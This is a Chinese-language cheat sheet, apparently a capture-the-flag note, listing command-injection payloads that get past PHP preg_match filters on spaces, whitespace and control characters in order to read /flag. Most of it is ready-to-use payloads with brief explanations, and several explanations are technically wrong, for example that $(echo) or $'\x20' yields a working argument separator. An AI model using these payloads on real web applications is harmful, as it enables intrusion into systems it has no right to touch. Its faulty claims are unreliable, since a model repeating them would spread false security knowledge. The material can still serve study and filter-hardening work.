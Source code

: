 ## 1. 检测空格 (`preg_match("/ /", $input)`)

```shell
#使用 `$IFS`（内部字段分隔符），不直接输入空格：
#`IFS` 默认是空格，所以它会把 `$IFS` 看作是空格，但不会被检测到。也可以用其他值修改 `IFS`，比如制表符（tab）等。

cat$IFS/flag
```

------

## 2. 检测任意空白字符 (`preg_match("/[[:space:]]/", $input)`)

```shell
#使用十六进制表示空格（或其他空白字符）：
#`[[:space:]]` 匹配空白字符，不仅是空格，可能包括制表符、换行符等。所以你可以利用十六进制值绕过空格匹配，使用其他空白字符如 tab（`\x09`）和换行（`\x0a`）。
cat$'\x20'/flag   # 空格的十六进制表示
cat$'\x09'/flag   # Tab的十六进制表示
cat$'\x0a'/flag   # 换行符的十六进制表示
```

------

## 3. 检测普通空格和其他字符 (`preg_match("/ /", $input)` + 空格和其他字符)

```shell
#`$(echo)` 技巧，避免直接出现空格字符：
#`$(echo\ )` 会输出一个空格，但它并不会被 `preg_match("/ /", ...)` 直接匹配到，绕过了空格检测。
cat$(echo)/flag
cat$(echo\ )/flag
```

------

## 4. 检测以空格开头或结尾的命令（例如 `preg_match("/^ /", $input)`）

```shell
#命令拼接或扩展：
#避免了空格出现在开头或结尾，使用命令拼接的方式，规避了正则的直接匹配。
c=cat;f=/flag;$c$f
```

------

## 5. 检测空格作为分隔符（`preg_match("/ /", $input)` 与其他字符匹配）

```shell
#URL编码空格或替代符：
#URL编码会被自动解码，这对于 Web 环境是很有效的。如果空格被转义成 `%20`，它在通过后端系统时会被还原为真正的空格。可以尝试其他编码来规避检测。
cat%20/flag  # 空格的URL编码
cat%09/flag  # tab制表符的URL编码
cat%0a/flag  # 换行符的URL编码
```

------

## 6. 检测非法字符或限制字符（`preg_match("/[^a-zA-Z0-9]/", $input)`）

```shell
#使用可视字符，但不会被匹配：
#（`\x20` 是空格的十六进制表示）通过十六进制或转义字符来替代普通字符，不会被常见的字符范围限制（如 `a-zA-Z0-9`）匹配到。
cat$'\x20'/flag
```

------

## 7. 检测分隔符或者控制符（`preg_match("/[[:cntrl:]]/", $input)`）

```shell
#使用**控制字符**绕过：
#`[[:cntrl:]]` 匹配任何控制字符，类似于制表符、换行符、回车符等。通过利用可控制字符来绕过空格检测，完成命令注入。
cat$'\x1b'/flag   # Escape字符（\x1b）
cat$'\x0a'/flag   # 换行符（\x0a）
```

------

## 8. 综合绕过（结合多个技术）

- **绕过方法**：

```shell
#将多个技术结合使用：
#此方法结合了 `$(echo)`（输出空格）和 `$'\x20'`（空格的十六进制形式），适用于复杂的绕过场景，能充分避免正则的匹配。
cat$(echo\ )$'\x20'/flag
```

------

# 🚀 总结

> `preg_match("/ /", $input)` 通常用于检测空格，但只要你巧妙利用 Linux 中的各种技巧（比如 `$IFS`、`$(echo)`、十六进制表示等），就能绕过这类检测。
>
> 如果正则使用了更广泛的空白字符匹配（如 `[[:space:]]`），你可以尝试使用**控制字符**、**URL编码**或**十六进制表示**来绕过。
>
> 需要时，结合多个技巧一起用，能应对更复杂的过滤或检测。